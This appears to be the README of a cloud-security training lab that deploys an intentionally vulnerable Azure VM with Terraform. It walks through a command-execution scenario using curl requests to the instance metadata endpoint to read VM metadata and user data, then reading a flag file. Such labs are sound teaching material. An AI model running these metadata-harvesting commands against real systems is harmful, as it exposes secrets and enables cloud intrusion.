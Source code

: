 # Azure VM Command Execution Vulnerable Environment

English | [中文](./README_CN.md)

## Description

This is a scenario used to build the Azure VM command execution vulnerability environment.

After building the environment with Terraform, users can obtain metadata and user data and other information on VM through the command execution vulnerabilities.

## Deployment Environment

Execute the following command in the container

```shell
cd /TerraformGoat/azure/elastic_computing_service/vm_command_execution
```

Use the `az login` command for Azure identity authentication, and follow the prompts to authenticate.

```shell
az login
```

Deploy Vulnerable Environment

```shell
terraform init
terraform apply
```

> When the terminal prompts `Enter a value:`, enter `yes`

After the environment is set up, You can see the access address of the scenario at Outputs, then access to the browser.

> Because the scenario takes some time to build, if your browser cannot access this site, you can wait a few minutes and access it again.

## Vulnerability Utilization

On VM with command execution vulnerabilities, we can use command execution to get VM metadata, user data and other information.

read metadata

```shell
curl -H Metadata:true http://169.254.169.254/metadata/instance?api-version=2021-05-01 | python -m json.tool
```

![img](../../../images/1652094112.png)

read user data

> The premise is that the target has been configured with user data.

```shell
curl -H Metadata:true --noproxy "*" "http://169.254.169.254/metadata/instance/compute/userData?api-version=2021-01-01&format=text" | base64 --decode
```

![img](../../../images/1652094186.png)

In the user data information, you can see that there is a flag file in the root directory of the scenario, try to use  command execution to read this file.

```shell
cat /flag69152201.txt
```

![img](../../../images/1652094243.png)

Successfully read the flag file.

## Destroy the environment

```shell
terraform destroy
```
